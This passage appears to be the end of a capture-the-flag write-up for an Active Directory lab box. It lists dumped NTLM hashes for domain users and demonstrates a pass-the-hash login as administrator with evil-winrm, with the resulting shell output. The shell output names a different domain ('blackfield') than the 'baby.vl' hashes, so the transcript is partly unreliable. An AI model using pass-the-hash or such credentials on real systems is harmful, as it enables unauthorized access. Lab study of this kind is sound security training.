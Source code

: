 ```bash
baby.vl\Joseph.Hughes:1112:aad3b435b51404eeaad3b435b51404ee:31f12d52063773769e2ea5723e78f17f:::
baby.vl\Kerry.Wilson:1113:aad3b435b51404eeaad3b435b51404ee:181154d0dbea8cc061731803e601d1e4:::
baby.vl\Teresa.Bell:1114:aad3b435b51404eeaad3b435b51404ee:7735283d187b758f45c0565e22dc20d8:::
baby.vl\Caroline.Robinson:1115:aad3b435b51404eeaad3b435b51404ee:d731082cb6c86fb2f3d64a9439e60dc7:::
```

Now we have the hashes of different user's and Administrator. We can bruteforce them offline to extract the plain text password or can also perform **pass-the-hash** attack to gain remote shell on user account

###  Pass-The-Hash

**pass the hash** is a hacking technique that allows an attacker to authenticate to a remote server or service by using the underlying **NTLM** or **LanMan** hash of a user's password, instead of requiring the associated plaintext password as is normally the case. It replaces the need for stealing the plaintext password to gain access with stealing the hash. This happens due to **NTLM** protocol, used in AD to authenticate users. [reference](https://en.wikipedia.org/wiki/NTLM)

We can perform **pass-the-hash** attack using different tools like `evil-winrm`, `psexec.py` and `wmiexec.py`

#### Evil-wirnm

Using Evil-winrm.

```powershell
$ evil-winrm -i 10.10.127.19 -u administrator -H 'ee4457ae59f1e3fbd764567d9cef123d' 
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami 
blackfield\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

# Happy Hacking ❤

# Reference

- https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960
